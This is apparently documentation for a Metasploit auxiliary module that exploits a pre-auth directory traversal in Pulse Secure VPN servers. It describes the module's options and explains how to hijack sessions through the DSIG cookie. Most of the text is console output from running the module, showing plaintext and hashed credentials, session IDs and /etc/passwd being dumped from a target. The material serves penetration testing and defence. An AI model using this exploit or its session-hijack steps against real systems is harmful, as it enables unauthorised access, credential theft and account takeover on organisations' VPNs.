 ## Introduction

This module exploits a pre-auth directory traversal in the Pulse Secure
VPN server to dump an arbitrary file. Dumped files are stored in loot.

If the `Automatic` action is set, plaintext and hashed credentials, as
well as session IDs, will be dumped. Valid sessions can be hijacked by
setting the `DSIG` browser cookie to a valid session ID.

For the `Manual` action, please specify a file to dump via the `FILE`
option. `/etc/passwd` will be dumped by default. If the `PRINT` option is
set, file contents will be printed to the screen, with any unprintable
characters replaced by a period.

Please see related module exploit/linux/http/pulse_secure_cmd_exec for
a post-auth exploit that can leverage the results from this module.

## Actions

```
Name       Description
----       -----------
Automatic  Dump creds and sessions
Manual     Dump an arbitrary file (FILE option)
```

## Options

**FILE**

Set this to the file you want to dump. The default is `/etc/passwd`.
Valid only in manual mode.

**PRINT**

Whether to print file contents to the screen. Valid only in manual mode.

## Usage

Dumping creds and sessions in automatic mode:

```
msf auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in automatic mode
[*] Dumping /data/runtime/mtmp/lmdb/dataa/data.mdb
[+] /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[*] Dumping /data/runtime/mtmp/lmdb/randomVal/data.mdb
[*] Parsing session IDs...
[+] Session ID found: df502e6052d9002d8f02160af8bfd055
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: acbef5625
[+] Session ID found: c145e683a
[+] Session ID found: fc6c097dd
[+] Session ID found: 249b470bd9bd1983f721ca950a74e61c
[+] Session ID found: c145e683a17cfacb72a47eb8b2515c14
[+] Session ID found: a7661751393e16fa253e97bd02dc2a4f
[+] Session ID found: 7e78ab276afea3f00dfa41892c437156c699eff8
[+] /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[*] Dumping /data/runtime/mtmp/system
[+] /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin
[*] Auxiliary module execution completed
msf auxiliary(gather/pulse_secure_file_disclosure) > loot

Loot
====

host         service  type                                        name                                        content                   info                   path
----         -------  ----                                        ----                                        -------                   ----                   ----
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/dataa/data.mdb      application/octet-stream  Plaintext credentials  /Users/wvu/.msf4/loot/20191029221840_default_[redacted]_PulseSecureVPN_273470.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/lmdb/randomVal/data.mdb  application/octet-stream  Session IDs            /Users/wvu/.msf4/loot/20191029221845_default_[redacted]_PulseSecureVPN_607925.mdb
[redacted]            Pulse Secure VPN Arbitrary File Disclosure  /data/runtime/mtmp/system                   application/octet-stream  Hashed credentials     /Users/wvu/.msf4/loot/20191029221851_default_[redacted]_PulseSecureVPN_530345.bin

msf auxiliary(gather/pulse_secure_file_disclosure) >
```

Dumping default `/etc/passwd` in manual mode:

```
msf auxiliary(gather/pulse_secure_file_disclosure) > set action Manual
action => Manual
msf auxiliary(gather/pulse_secure_file_disclosure) > run
[*] Running module against [redacted]

[*] Running in manual mode
[*] Dumping /etc/passwd
root:x:0:0:root:/:/bin/bash
nfast:x:0:0:nfast:/:/bin/bash
bin:x:1:1:bin:/:
nobody:x:99:99:Nobody:/:
dns:x:98:98:DNS:/:
term:x:97:97:Telnet/SSH:/:
web80:x:96:96:Port 80 web:/:
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
postgres:x:102:102:PostgreSQL User:/:

[+] /Users/wvu/.msf4/loot/20191029222949_default_[redacted]_PulseSecureVPN_073170.bin
[*] Auxiliary module execution completed
msf auxiliary(gather/pulse_secure_file_disclosure) >
```
